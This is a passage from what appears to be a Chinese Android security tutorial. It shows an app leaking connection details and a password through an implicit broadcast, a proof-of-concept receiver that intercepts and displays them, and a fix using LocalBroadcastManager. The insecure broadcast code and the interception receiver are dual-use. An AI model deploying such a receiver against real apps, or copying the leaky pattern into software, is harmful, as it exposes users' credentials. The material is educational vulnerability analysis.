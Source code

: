 **案例3：敏感信息泄漏**

某应用利用广播传输用户账号密码

![](http://drops.javaweb.org/uploads/images/c9fc310f49ee1683bdadd6e96e59103385831b6f.jpg)

隐式意图发送敏感信息

```
public class ServerService extends Service {
  // ...
  private void d() {
    // ...
    Intent v1 = new Intent();
    v1.setAction("com.sample.action.server_running");
    v1.putExtra("local_ip", v0.h);
    v1.putExtra("port", v0.i);
    v1.putExtra("code", v0.g);
    v1.putExtra("connected", v0.s);
    v1.putExtra("pwd_predefined", v0.r);
    if (!TextUtils.isEmpty(v0.t)) {
      v1.putExtra("connected_usr", v0.t);
    }
  }
  this.sendBroadcast(v1);
}

```

接收POC

```
public class BcReceiv extends BroadcastReceiver {
  @Override
  public void onReceive(Context context, Intent intent){

    String s = null;
    if (intent.getAction().equals("com.sample.action.server_running")){
      String pwd = intent.getStringExtra("connected");
      s = "Airdroid  => [" + pwd + "]/" + intent.getExtras();
    }
    Toast.makeText(context, String.format("%s Received", s),
                   Toast.LENGTH_SHORT).show();
  }
}

```

修复后代码，使用 LocalBroadcastManager.sendBroadcast() 发出的广播只能被app自身广播接收器接收。

```
Intent intent = new Intent("my-sensitive-event");
intent.putExtra("event", "this is a test event");
LocalBroadcastManager.getInstance(this).sendBroadcast(intent);

```
